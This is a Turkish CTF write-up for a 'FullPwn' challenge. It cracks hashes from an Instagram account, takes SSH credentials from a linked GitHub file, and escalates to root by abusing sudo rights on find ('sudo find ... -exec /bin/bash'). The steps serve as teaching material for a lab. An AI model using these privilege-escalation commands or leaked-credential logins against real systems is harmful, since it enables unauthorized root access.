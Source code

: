 # CTF Write-Up: FullPwn

## Senaryo
Bu CTF senaryosunda, başlangıçta bir **Instagram hesabı** ve bir **IP adresi** verilmektedir.
Katılımcıların Instagram hesabında paylaşılan postlarda bulunan hashleri çözerek flagi elde etmeleri gerekmektedir.

---

## 1. Instagram Hesabı ve Hashlerin Çözülmesi

İlk adım olarak verilen **Instagram hesabına giriş yapılmalıdır**. Postlar arasında hashler bulunmaktadır. Bu hashlerin çözümleri aşağıdaki gibidir:

- **Morse Kodu (sky)**: `... -.- -.--` → **SKY**
- **MD5 (lab)**: `f9664ea1803311b35f81d07d8c9e072d` → **LAB**
- **SHA256 (harika)**: `6c12bdb955161113e8b04cdc20d975a8457949e0dada8cdbea38501affd4bb92` → **HARİKA**
- **SHA1 (SKYDAYS25{})**: `2cc5422cabe10c59571badcf0371ebb5c70e4532` → **SKYDAYS25{FLAG}**

---

## 2. Instagram Biyografisinden Github'a Erişim

Instagram biyografisinde bir **GitHub linki** bulunmaktadır. Bu link takip edilerek, içinde **kullanıcı adı ve şifre** bulunan bir dosya tespit edilmelidir.

![image](eray-fullpwn/github.png)

---

## 3. SSH ile Sisteme Giriş

GitHub’dan elde edilen **kullanıcı adı** ve **şifre** kullanılarak, verilen **IP adresine SSH bağlantısı** gerçekleştirilmelidir.

```bash
ssh username@IP_ADRESİ
```

Bağlantı sağlandıktan sonra **user flag** elde edilecektir.

![image](eray-fullpwn/user.png)

---

## 4. Privilege Escalation (Yetki Yükseltme)

Sisteme girdikten sonra, root yetkilerini almak için aşağıdaki adımlar takip edilmelidir.

### 4.1. Sudo Yetkilerini Kontrol Etme
```bash
sudo -l
```
Bu komut çalıştırıldığında **find** komutunun sudo yetkileri ile çalıştırılabileceği görülecektir.

### 4.2. SUID Bayrağı Olan Dosyaları Bulma
```bash
find / -type f -perm -4000
```
Bu komut, sistemde SUID (Set User ID) bitine sahip dosyaları listeler.

### 4.3. Find Komutunu Kullanarak Root Yetkisi Almak
```bash
sudo find / -type f -perm -4000 -exec /bin/bash \;
```
Bu komut, root yetkileriyle bash kabuğunu açarak root erişimi sağlamaktadır.

![image](eray-fullpwn/root.png)

---

## 5. Root Flag'i Bulma
```bash
cat /root/root_flag.txt
```
Bu komut ile **root flag** elde edilir.



---

## Sonuç
Bu CTF, temel olarak **hash çözme, OSINT teknikleri, SSH erişimi ve privilege escalation (yetki yükseltme)** adımlarını içermektedir. Başarıyla tamamlayan katılımcılar, temel Linux yeteneklerini ve sızma testi tekniklerini öğrenmiş olacaklardır.

